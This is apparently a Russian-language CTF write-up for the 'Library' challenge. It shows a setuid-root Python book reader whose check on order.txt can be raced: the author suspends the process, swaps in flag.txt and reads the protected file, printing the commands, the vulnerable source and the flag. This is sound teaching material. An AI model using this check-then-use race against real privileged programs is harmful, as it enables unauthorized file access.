# Library writeup
Подключаемся по ssh, смотрим, что есть:

```bash
$ ls
order.txt
$ ps
    PID TTY          TIME CMD
     25 pts/0    00:00:00 bash
     30 pts/0    00:00:00 ps
```

Негусто. Посмотрим на заказ книги:
```bash
$ order_book
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
1
-------- Books --------
  flag.txt
  lazy_boy.txt
  lorem.txt
  wealth_and_poor.txt
-----------------------
Command:
2
There is no such book.
Command:
q
توديع - فراق! أتمنى لك يوما جميلا! Goodbye! Have a nice day! (Please press Ctrl+C)
```

Некий CLI, реализующий чтение файлов. Название желаемого файла нужно класть в **~/order.txt**. Попробуем прочитать какой-нибудь файл:

```bash
$ echo "lorem.txt" > order.txt
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
Want to proceed? [y/n]:y
---- Book contents ----
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas eu nisl massa. Suspendisse tristique placerat hendrerit. Nunc tempus felis mi, ac sodales nisi tristique eleifend. Phasellus condimentum mattis lectus et posuere. Ut mattis, velit eget dapibus egestas, odio ligula bibendum metus, vel pretium tortor tellus auctor odio. Aliquam venenatis mauris varius vulputate rhoncus. Integer ultrices ut erat id imperdiet. Etiam ipsum nisl, tincidunt id lobortis non, pellentesque et ipsum. Suspendisse mattis enim vulputate, finibus massa a, auctor ligula.

Sed laoreet tincidunt lectus quis ornare. Ut vestibulum mauris nibh, eget sollicitudin odio ornare non. Cras ac accumsan lectus. Morbi ultrices erat at vulputate congue. Mauris ac mi dictum, gravida nibh quis, lobortis ipsum. Nulla facilisi. Vivamus dignissim, nunc sit amet elementum maximus, metus justo efficitur quam, ut euismod nisl libero eget tellus. Phasellus a arcu eget lectus egestas venenatis. Integer vestibulum tellus mollis massa sagittis, venenatis venenatis ex tincidunt. In eu fermentum turpis. Aliquam ornare malesuada posuere. Fusce interdum laoreet velit vel luctus. Suspendisse non risus id est dignissim dapibus. In hac habitasse platea dictumst. Nunc at turpis nunc. Pellentesque imperdiet nisi in odio vulputate, at porta dolor bibendum.

Donec augue nulla, mollis sit amet tellus id, blandit convallis dolor. Quisque dapibus massa ac commodo porttitor. Quisque vulputate turpis in consequat maximus. In pharetra quam vel magna euismod eleifend. Phasellus a felis justo. Mauris vitae sodales sem. Curabitur eleifend orci in finibus mattis. Ut volutpat est id commodo vulputate. Nam bibendum arcu ut eros tempor scelerisque. Donec sodales scelerisque justo a feugiat. Pellentesque habitant morbi tristique senectus et netus et malesuada fames ac turpis egestas. Donec convallis, nisi a rhoncus sodales, sem justo feugiat lacus, vitae consequat lacus diam a magna. Nunc blandit non sem eget consequat. Suspendisse commodo sapien ligula, at bibendum nisl finibus sit amet. Fusce quis odio et ipsum suscipit tristique vitae at mi. Vestibulum vitae magna sit amet mauris auctor facilisis.

Interdum et malesuada fames ac ante ipsum primis in faucibus. Sed hendrerit felis quis nulla mattis porta. Nunc malesuada erat ac nunc egestas pulvinar. Morbi sed dui efficitur, lacinia risus sed, tempor nisi. Donec elementum at arcu in sollicitudin. Cras elementum elit ut massa consequat, quis aliquet sem efficitur. Integer quis aliquam augue, non commodo turpis.

Phasellus hendrerit lacus quis magna efficitur, a dapibus dui aliquet. Fusce eget leo nec velit imperdiet blandit non at dui. Maecenas pulvinar felis at porttitor vehicula. Quisque mollis semper odio, et fringilla lorem rutrum eget. Mauris molestie tempor ipsum, id fringilla ex vestibulum vel. Cras et nunc eros. Etiam ut bibendum sapien, id pharetra ante. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia curae; 

-----------------------
```

Отлично, это работает. Ради интереса попробуем прочитать флаг:

```bash
$ echo "flag.txt" > order.txt
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
That seems like f0rb1dd3n literature. It's strictly prohibited in the Library.
```

Ожидаемо. Давайте изучать `order_book`. Для начала найдем, где она находится:

```bash
$ which order_book
/usr/bin/order_book
```

Окей, теперь скачаем её себе на локалку:
```bash
$ scp -rP 21009 visitor2@ctf.li2sites.ru:/usr/bin/order_book .
visitor2@ctf.li2sites.ru's password: 
order_book
```

И посмотрим на нее в дизассемблере:
```C
int main(int argc, const char **argv, const char **envp) {
    setuid(0);
    system("/usr/local/share/order_book.py");
    return 0;
}
```

Эта программа просто повышает себя до рута и запускает питоновский скрипт. Вернемся на сервер и посмотрим на [скрипт](deploy/service/order_book.py). Функция `main()`:

```python
def main():
    global books
    books = os.listdir(LIBDIR)
    updater = threading.Thread(target=update_book_to_read,)
    updater.start()

    banner()
    logic()
    print("توديع - فراق! أتمنى لك يوما جميلا! Goodbye! Have a nice day! (Please press Ctrl+C)")
```

Заметим, что **LIBDIR** = "**/books/**". Значит, файлы книг берутся оттуда. Однако, просто так мы их прочитать не можем, так как они принадлежат руту и у остальных юзеров нету привелегий на их чтение:

```bash
$ ls -lah /books/
total 36K
drwxr-xr-x 1 root root 4.0K Nov 29 21:53 .
drwxr-xr-x 1 root root 4.0K Nov 29 21:53 ..
-r-------- 1 root root  122 Nov 29 21:35 flag.txt
-r-------- 1 root root 3.2K Nov 29 21:35 lazy_boy.txt
-r-------- 1 root root 3.0K Nov 29 21:35 lorem.txt
-r-------- 1 root root 2.1K Nov 29 21:35 wealth_and_poor.txt

```

Наиболее интересным моментом является создание потока для функции `update_book_to_read()`. Взглянем на нее:

```python
def update_book_to_read():
    global book_to_order
    try:
        while True:
            f = open("order.txt", "r")
            book_to_order = f.read().strip()
            f.close()
            sleep(1)
    except FileNotFoundError:
        print("order.txt is not found by librarian.")
        os._exit(-1)
```

Раз в секунду она обновляет глобальную переменную **book_to_order**, записывая в нее содержимое **order.txt**. Поищем, где используется эта переменная:

```python
def order_book():
    global book_to_order
    
    try:
        assert book_to_order in books
    except AssertionError:
        print("There is no such book.")
        return

    if "flag" in book_to_order: 
        print("That seems like f0rb1dd3n literature. It's strictly prohibited in the Library.")
    else:
        ans = input("Want to proceed? [y/n]:")
        if ans != "y":
            return
        try:
            f = open(LIBDIR + book_to_order)
        except FileNotFoundError:
            print("There is no such book.")
            return
        data = f.read()

        print("---- Book contents ----")
        print(data)
        print("-----------------------")
        f.close()
```

Это функция чтения книги, вызваемая командой "2". Она читает запрашиваемый через **order.txt** файл, и выводит его содержимое, если выполнено несколько условий:
1. Он есть в списке файлов `books`
2. В названии файла нет `flag.txt`
3. Файл существует

И защиту действительно не обойдешь - она проверяет наличие жеалемого файла в списке, который никак не меняется с момента запуска программы.

Повторим вышесказанное. `update_book_to_read()` каждую секунду обновляет глобальную переменную **book_to_order**, к которой несколько раз обращается `order_book()`. Если наш заказ обновляется "в онлайне", то тогда выходит, что в разные моменты времени переменная **book_to_order** может хранить разные значения _в рамках одного вызова_ `order_book()`. К тому, же, между проверкой на наличие "flag.txt" в названии и самим чтением есть вызов `input()`, что дает неограниченную задержку. Налицо **data race**.

План такой:
1. Записываем в **order.txt** какой-нибудь сущесвующий файл, не являющийся флагом
2. Запускаем **order_book**
3. Заказываем книгу (проходим все проверки, так как книга существует и не является флагом), но не нажимаем "y", приостаналиваем программу (Ctrl+Z)
4. Пишем "flag.txt" в **order.txt**
5. Продолжаем выполнение **order_book** (`fg`)
6. Ждем секунду, `update_book_to_read()` обновляет **book_to_order**
7. Нажимаем "y", программа читает файл, который находится в **book_to_order** => читает **flag.txt**

```bash
$ # step 1
$ echo "lorem.txt" > order.txt
$ # step 2-3
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
Want to proceed? [y/n]:^Z
[1]+  Stopped                 order_book
$ # step 4
$ echo "flag.txt" > order.txt 
$ # step 5-7
$ fg
order_book
y
---- Book contents ----
You managed to find a treasure of the Libray. Nice job you did!

li2CTF{b00K_15_m0R3_v4lu4bl3_7H4n_a_G0ld,__1_gu355_y0u_4gr33}

-----------------------
```

Флаг: `li2CTF{b00K_15_m0R3_v4lu4bl3_7H4n_a_G0ld,__1_gu355_y0u_4gr33}`

